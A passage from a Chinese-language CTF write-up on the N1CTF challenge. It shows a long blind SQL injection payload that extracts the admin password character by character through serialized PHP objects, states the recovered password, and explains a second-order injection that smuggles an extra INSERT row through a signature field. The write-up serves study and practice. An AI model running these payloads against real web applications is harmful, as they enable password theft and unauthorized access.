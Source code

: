 ```
wat`,(select case when ascii(substr((select password from ctf_users where is_admin=1),3,1))=48 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:7:"1.0.0.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=49 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:7:"2.0.0.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=50 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:7:"5.0.0.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=51 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:9:"127.0.0.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=52 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:9:"128.0.0.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=53 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:9:"129.0.0.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=54 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:9:"135.0.0.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=55 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:11:"27.116.56.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=56 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:12:"41.109.118.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=57 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:10:"5.11.15.64";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=97 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:12:"103.81.186.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=98 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:10:"5.10.240.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=99 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:11:"17.45.140.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=100 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:12:"43.249.176.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=101 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:9:"41.76.8.0";s:4:"date";i:1520676219;}` when ascii(substr((select password from ctf_users where is_admin=1),3,1))=102 then `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:9:"46.8.41.0";s:4:"date";i:1520676219;}` else `O:4:"Mood":3:{s:4:"mood";s:6:"../../";s:2:"ip";s:7:"1.0.0.0";s:4:"date";i:1520676219;}` end)) -- -
```
&emsp;&emsp;但我在本地复现的时候这个payload却行不通，页面返回的是服务器错误，查看日志则是反序列化的错误。
<div align="center">
    <img src="/images/posts/n1ctf/36.png" width="50%" />  
</div>
&emsp;&emsp;这里作者就不再纠结这个问题了，最终`admin`的密码就是`nu1ladmin`。

#### 二次注入
&emsp;&emsp;除了盲注，这里作者还发现了一个博客中运用了更简单的payload，他使用了`二次注入`一次性直接将密码都出来，从操作上来看二次注入的步骤显然要比盲注简单很多，所以作者对这种手法再进行练习。原博客地址为：<a href="http://p0sec.net/index.php/archives/118/">p0's blog | 破</a>

&emsp;&emsp;首先先注册一个新的用户，并且通过盲注确定他的`id`，然后进行二次注入，如：
```
signature=1`,(select 1)),('1','123','1','1')#mood=1
```
&emsp;&emsp;这种注入就是一次插入两行数据，这样我们可以控制第二行的所有数据，然后我们可以将`admin`的密码显示到`id`为自己账号上的`signature`上。
